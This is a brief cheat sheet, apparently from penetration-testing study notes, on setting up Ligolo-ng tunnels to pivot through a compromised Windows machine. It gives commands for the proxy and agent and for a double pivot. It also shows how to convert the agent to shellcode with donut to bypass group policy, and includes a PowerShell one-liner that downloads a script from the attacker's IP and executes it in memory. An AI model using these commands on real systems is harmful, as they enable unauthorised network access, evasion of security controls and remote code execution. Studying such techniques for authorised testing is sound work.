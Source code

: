 # Name
Ligolo-ng

## Usage
```
On Kali:
    ./proxy_linux64 -selfcert -laddr 0.0.0.0:443 

    After client connects:
        In Ligolo-ng session: 
            session
            ifconfig
            autoroute
        In event that route already exists, in Kali terminal:
            sudo ip route del 172.16.218.0/24 dev <interface name> 

On pivot machine:
    .\agent_win64.exe -connect 192.168.45.227:443 -ignore-cert

Double pivot:
    In initial ligolo-ng session:
        listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80

ORRRRRRRR Using Ligolo by running shellcode (able to bypass group policy on executable execution)

# Create agent.bin shellcode from agent_win64.exe, specifying the command line
donut -f 1 -o agent.bin -a 2 -p "-connect 192.168.45.206:8000 -ignore-cert" -i agent_win64.exe 

# Change line 14 of ligolo.ps1 to attacker's IP

# Call ligolo.ps1 in memory
iex (new-object net.webclient).downloadstring('http://192.168.45.206/ligolo.ps1')
```

## Source
https://github.com/nicocha30/ligolo-ng/releases/tag/v0.7.5
https://github.com/Extravenger/OSEPlayground?tab=readme-ov-file#tunneling---ligolo-ng
